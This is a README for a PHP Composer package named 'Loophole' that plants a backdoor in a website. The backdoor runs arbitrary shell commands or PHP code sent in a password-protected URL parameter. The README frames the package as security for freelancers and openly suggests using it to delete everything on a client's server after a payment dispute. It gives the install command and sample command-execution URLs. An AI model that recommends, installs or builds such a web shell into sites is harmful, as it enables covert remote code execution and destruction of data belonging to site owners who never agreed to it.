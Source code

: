 # Loophole

This library is designed to provide security to freelancers, as well as others in order to provide secure access to the site without the admin panel. When can it be useful? If you are a freelancer and you have been scammed, you can run some system command on the server to delete everything. In other cases, for example remote control of the site via POST API. In general I make this package for myself but I'm putting it here so someone can use it and not have to write new code every time. I will be glad if I help someone :)

[![packagegist](https://img.shields.io/packagist/v/daniilskli/loophole.svg)](https://packagist.org/packages/daniilskli/loophole)

# QuickStart

* [Installation](#installation)
* [Basic Usage](#basic-usage)
* [Methods](#methods)

## Installation
`composer require daniilskli/loophole`

## Basic Usage
```
<?php

require_once __DIR__ . "/../vendor/autoload.php";

use Loophole\Setup;
use Loophole\Config;

$loophole = new Setup((new Config("myTopSecretPassword"))->setLog(true));
$loophole->start();

```
And in url address  
`http://localhost:8080/?password=password_hash&command=touch hello.txt // Creates a "hello.txt" file`
`http://localhost:8080/?password=password_hash&command=php::echo 123; // Echo 123 on page

### Warning!
`password`, `command` - required parameters.

### Methods
#### Config
- `__construct(string password)`  
- `setLog(true or false, path (has default value))` usage `monolog` library  
- `setMethod(string 'POST' or 'GET')` you can use `Loophole\Config\Method`  

#### Setup
- `__construct(Config)`  
- `start()`

## End
That's all for now, I'll create a wiki with a better explanation of everything later.
